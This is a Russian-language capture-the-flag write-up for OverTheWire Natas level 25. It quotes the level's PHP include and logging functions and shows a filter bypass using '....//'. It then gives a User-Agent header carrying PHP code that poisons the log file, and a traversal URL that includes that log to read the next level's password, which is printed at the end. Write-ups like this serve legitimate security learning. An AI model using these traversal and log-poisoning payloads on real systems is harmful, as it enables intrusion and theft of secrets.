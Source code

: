 интерес представляют следующие функции
```php
function safeinclude($filename){
    if(strstr($filename,"../")){
        logRequest("Directory traversal attempt! fixing request.");
        $filename=str_replace("../","",$filename);
    }
    if(strstr($filename,"natas_webpass")){
        logRequest("Illegal file access detected! Aborting!");
        exit(-1);
    }
    if (file_exists($filename)) { 
        include($filename);
        return 1;
    }
    return 0;
```

```php
function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n"; 
    $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}
```
в первой функции есть 2 этапа проверки
вполне очевидно, что второй этап обойти не получится, папка с паролями (**/etc/natas_webpass/natas26**) для нас закрыта
однако, первый этап проверки достаточно слаб, есть возможность обойти его при помощи следующей конструкции: ....// , в таком случае ../ меняется на ничего и мы получаем ../
таким образом мы можем получить путь куда угодно

Вторая функция пишет лог в /var/www/natas/natas25/logs/natas25_{PHPSESSIONID}.log
не сложно заметить, что первая функция, при прохождении всех этапов проверки, выполняет include, то есть буквально вставляет код страницы
Это можно заабьюзить путем добавления 
```php
<?php {ПРОИЗВОЛЬНЫЙ КОД} ?
```
в файл лога (к которому у нас есть доступ при обходе первого этапа)
Дело за малым, залить через User-Agent наш пэйлоуд
```http-header
User-Agent:<?php include("/etc/natas_webpass/natas26") ?>
```
после чего запросить страницу с нашим логом
```url
http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//....//....//var/www/natas/natas25/logs/natas25_{PHPSESSIONID}.log
```
и таким образом получаем
cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE